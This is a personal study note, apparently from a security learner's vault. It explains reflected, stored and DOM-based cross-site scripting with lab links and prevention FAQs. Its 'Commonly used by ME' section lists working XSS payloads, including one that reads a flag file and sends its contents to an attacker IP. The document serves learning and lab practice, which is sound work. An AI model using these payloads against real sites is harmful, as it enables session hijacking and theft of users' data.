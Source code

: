 ```yaml
---
title: Cross-Site Scripting (XSS)
aliases:
  - Cross-Site Scripting (XSS)
description: Cross-site scripting (XSS) is an attack in which an attacker injects malicious executable scripts into the code of a trusted application or website.
tags:
  - XSS
  - Reflected
  - Stored
  - DOM-Based
  - Q/A
---
```

## What is cross-site scripting (XSS)?
---
Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

## What are the types of XSS attacks?
---
There are three main types of XSS attacks. These are:

- **Reflected XSS**, where the malicious script comes from the current HTTP request.
- **Stored XSS**, where the malicious script comes from the website's database.
- **DOM-based XSS**, where the vulnerability exists in client-side code rather than server-side code.
### **Reflected cross-site scripting**

Reflected XSS is the simplest variety of cross-site scripting. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

Here is a simple example of a reflected XSS vulnerability:

```html
https://insecure-website.com/status?message=All+is+well. 

<p>Status: All is well.</p>
```

The application doesn't perform any other processing of the data, so an attacker can easily construct an attack like this:

```html
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script> 

<p>Status: <script>/* Bad stuff here... */</script></p>
```

If the user visits the URL constructed by the attacker, then the attacker's script executes in the user's browser, in the context of that user's session with the application. At that point, the script can carry out any action, and retrieve any data, to which the user has access.

For Hands-on Practice you can try to solve this **labs/ctfs**:
- [Portswigger LAB](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)  - WriteUp [[LAB 0.1|LAB 0.1]]

### **Stored cross-site scripting**

Stored XSS (also known as persistent or second-order XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

The data in question might be submitted to the application via HTTP requests; for example, comments on a blog post, user nicknames in a chat room, or contact details on a customer order. In other cases, the data might arrive from other untrusted sources; for example, a webmail application displaying messages received over SMTP, a marketing application displaying social media posts, or a network monitoring application displaying packet data from network traffic.

Here is a simple example of a stored XSS vulnerability. Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP request like the following:

```js
POST /post/comment HTTP/1.1 
Host: vulnerable-website.com 
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:

```js
<p>This post was extremely helpful.</p>
```

Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:

```js
<script>/* Bad stuff here... */</script>
```

Within the attacker's request, this comment would be URL-encoded as:

```js
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
```

Any user who visits the blog post will now receive the following within the application's response:

```js
<p><script>/* Bad stuff here... */</script></p>
```

The script supplied by the attacker will then execute in the victim user's browser, in the context of their session with the application.

For Hands-on Practice you can try to solve this **labs/ctfs**:
- [Portswigger LAB](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)  - WriteUp [[LAB 0.2|LAB 0.2]]

### **DOM-based cross-site scripting**

DOM-based XSS (also known as DOM XSS) arises when an application contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

In the following example, an application uses some JavaScript to read the value from an input field and write that value to an element within the HTML:

```js
var search = document.getElementById('search').value; 
var results = document.getElementById('results'); 
results.innerHTML = 'You searched for: ' + search;
```

If the attacker can control the value of the input field, they can easily construct a malicious value that causes their own script to execute:

```html
You searched for: <img src=1 onerror='/* Bad stuff here... */'>
```

In a typical case, the input field would be populated from part of the HTTP request, such as a URL query string parameter, allowing the attacker to deliver an attack using a malicious URL, in the same manner as reflected XSS.

For more Information refer [[DOM-based]].

For Hands-on Practice you can try to solve this **labs/ctfs**:
- [Portswigger LAB](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)  - WriteUp [[LAB 0.3|LAB 0.3]]
## Crowd Sourcing
---
One of my favorite methods to find a huge number of valid XSS vulnerabilities is to visit http://www.reddit.com/r/xss. People will post on that sub-reddit the different XSS findings they have.

## OWASP Cheat Sheet
---
The other list I wish to mention that I’ve used often is OWASP Evasion Cheat Sheet. During my engagements, when I run into an encoding problem this is usually the first place I look. The cheat sheet can be found here: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet. The most common XSS protections I find are length issues and not allowing greater/less  han symbols. Luckily, the OWASP has any different examples to get around these issues.

## Commonly used by ME
---
>[!Payloads]
>`<img src=x onerror="fetch('http://10.11.116.53:8080')"/>`
>
>`<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://10.11.116.53:8080/?c=' + r)).catch(e => fetch('http://10.11.116.53:8080/?c=' + e))"/>`


## Commonly Asked Question
---
**How common are XSS vulnerabilities?** 
XSS vulnerabilities are very common, and XSS is probably the most frequently occurring web security vulnerability.

**How common are XSS attacks?** 
It is difficult to get reliable data about real-world XSS attacks, but it is probably less frequently exploited than other vulnerabilities.

**What is the difference between XSS and CSRF?** 
XSS involves causing a web site to return malicious JavaScript, while CSRF involves inducing a victim user to perform actions they do not intend to do.

**What is the difference between XSS and SQL injection?**
XSS is a client-side vulnerability that targets other application users, while SQL injection is a server-side vulnerability that targets the application's database.

**How do I prevent XSS in PHP?** 
Filter your inputs with a whitelist of allowed characters and use type hints or type casting. Escape your outputs with `htmlentities` and `ENT_QUOTES` for HTML contexts, or JavaScript Unicode escapes for JavaScript contexts.

**How do I prevent XSS in Java?** 
Filter your inputs with a whitelist of allowed characters and use a library such as Google Guava to HTML-encode your output for HTML contexts, or use JavaScript Unicode escapes for JavaScript contexts.

**What is the difference between reflected XSS and stored XSS?** 
Reflected XSS arises when an application takes some input from an HTTP request and embeds that input into the immediate response in an unsafe way. With stored XSS, the application instead stores the input and embeds it into a later response in an unsafe way.

**What is the difference between reflected XSS and self-XSS?** 
Self-XSS involves similar application behavior to regular reflected XSS, however it cannot be triggered in normal ways via a crafted URL or a cross-domain request. Instead, the vulnerability is only triggered if the victim themselves submits the XSS payload from their browser. Delivering a self-XSS attack normally involves socially engineering the victim to paste some attacker-supplied input into their browser. As such, it is normally considered to be a lame, low-impact issue.